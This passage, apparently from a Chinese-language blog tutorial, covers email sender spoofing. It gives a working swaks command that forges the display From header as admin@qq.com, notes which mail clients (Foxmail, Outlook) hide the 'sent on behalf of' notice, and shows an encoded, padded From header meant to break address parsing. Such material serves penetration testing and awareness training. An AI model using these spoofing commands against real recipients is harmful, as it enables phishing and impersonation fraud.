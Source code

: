 ```
sudo ./swaks --to 67*****28@qq.com  --from admin@evil.com  --h-From: '=?GB2312?B?UVHTys/kudzA7dSx?= <admin@qq.com>' --ehlo evil.com --body hello --header "Subject: test"      
    --from   <实际发件人，对应Sender字段>      
    --h-From <邮件显示的发件人，对应From字段>
```




QQ邮箱网页版查看邮件，Sender和From字段不一样时，发件人的位置显示由admin@evil.com代发。



![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9pbWcyMDIwLmNuYmxvZ3MuY29tL2Jsb2cvODk0NzYxLzIwMjAwNS84OTQ3NjEtMjAyMDA1MTcxNzQzMzI0NDItMTk5MjM4NjQzLnBuZw?x-oss-process=image/format,png)



使用Foxmail客户端查看同一封邮件，Sender和From字段不一样时，不显示代发，伪造成功。



![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9pbWcyMDIwLmNuYmxvZ3MuY29tL2Jsb2cvODk0NzYxLzIwMjAwNS84OTQ3NjEtMjAyMDA1MTcxNzQzNDAyMDAtMTQ0MzU2NjY2LnBuZw?x-oss-process=image/format,png)



我们分别使用网页版邮箱和客户端邮箱打开同一封邮件，通过对比可以发现，不同的邮件客户端对发件人位置的内容解析是不一样的。  

平时工作中，不少使用腾讯企业邮箱的童鞋，都喜欢使用Foxmail客户端查收邮件，这就给了我们成功伪造邮件的可乘之机。  

通过测试可以发现：qq邮箱、163邮箱网页版均会显示代发，Outlook邮箱不显示代发，具体邮件客户端软件可具体再行测试。



### **5、From字段名截断绕过**



当我们伪造邮件发送的时候，Sender和From字段不一样，邮件接收方会这样提示邮件代发。



![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9pbWcyMDIwLmNuYmxvZ3MuY29tL2Jsb2cvODk0NzYxLzIwMjAwNS84OTQ3NjEtMjAyMDA1MTcxNzQzNTQ5NTYtNDAzNjU5OTIyLnBuZw?x-oss-process=image/format,png)



那么有没有办法只显示伪造的发件人，不显示邮件代发呢？  

在网络上看到一种思路，来源于网贴《关于邮件伪造的一些新思路》，挺有意思的。  

在用SMTP发送电子邮件时，发件人别名，格式为：`From：发件人别名<邮件地址>`。通过对发件人别名字段填充大量的特殊字符，使邮箱客户端截取真实的邮件地址失败，从而只展示我们伪造的发件人别名和伪造邮箱。  

邮件伪造测试过程：



1.  在QQ邮箱中导出mail.eml文件，删除前面不必要的字段信息。

2.  填充发件人别名，伪造邮件头Fron字段



```
From:=?gb2312?B?udzA7dSxIDxhZG1pbkBxcS5jb20+0aGhoaGhoaGhoaGhoaGhoaGhoaGhoQ==?=      
=?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?=      
=?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?=      
=?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?=      
=?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?=      
=?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoSAgICAgICAgICAgICAgICAgIKGkoaQ=?=      
=?gb2312?B?oaQgICAgICAgICAgICAgICAgIKGhICAgICAgIKGkoaShpA==?=  <admin@test.com>
```
